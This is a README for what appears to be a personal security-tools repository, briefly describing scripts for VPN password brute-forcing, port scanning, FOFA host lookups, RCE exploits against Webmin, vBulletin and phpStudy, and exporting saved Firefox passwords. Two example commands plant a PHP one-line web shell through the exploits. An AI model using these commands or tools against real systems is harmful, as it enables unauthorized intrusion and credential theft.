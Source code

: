 # Homework-of-Python
Python codes of my blog.

### pptp_password_hack.py

Use Brute-force attack to get the password of PPTP VPN.

It'll read the passwords in file(named wordlist) and then use pptpsetup to connect to the server.

The time interval is 10 seconds.


### portscan.py

Use to scan port.

The timeout is 3 seconds.

c++ version：

https://github.com/3gstudent/Homework-of-C-Language/blob/master/portscan.cpp

### urltoip.py

Use to get ip from url.

I can use the result of Sublist3r directly.

### file_deduplication(For_urltoip).py

Use to remove duplicate ip from the result of Sublist3r.

I can use the result of urltoip.py directly.

The IP can be sorted by using Sublime(F9).

### file_deduplication.py

Use to remove duplicate items from file.

### Webmin<=1.920-Unauthenticated_RCE(CVE-2019-15107).py

Reference:

https://pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html

### fofa_api.py

Used to call fofa's api and print the IP from the results.

You can get 100 results.

### fofa_api_VIP.py

Used to call fofa's api and print the IP from the results.

If you're VIP,you'll get 10000 results.

### vBulletin_5.x_0day_pre-auth_RCE.py

Reference:

https://seclists.org/fulldisclosure/2019/Sep/31

Eg.

```
echo \<?php @eval\(\$_POST[pwd]\)\;?\> >test.php
```

### phpStudy_5.2-5.45_(php_xmlrpc.dll)_backdoor_RCE.py

Reference:

https://mp.weixin.qq.com/s/dTzWfYGdkNqEl0vd72oC2w

Eg.

```
system('cmd /c "echo ^<?php @eval(^$_POST[pwd]);?^> >D:\phpstudy\WWW\test.php"');
```

### ExportFirefoxPassword.py

Use to export the password of the Firefox
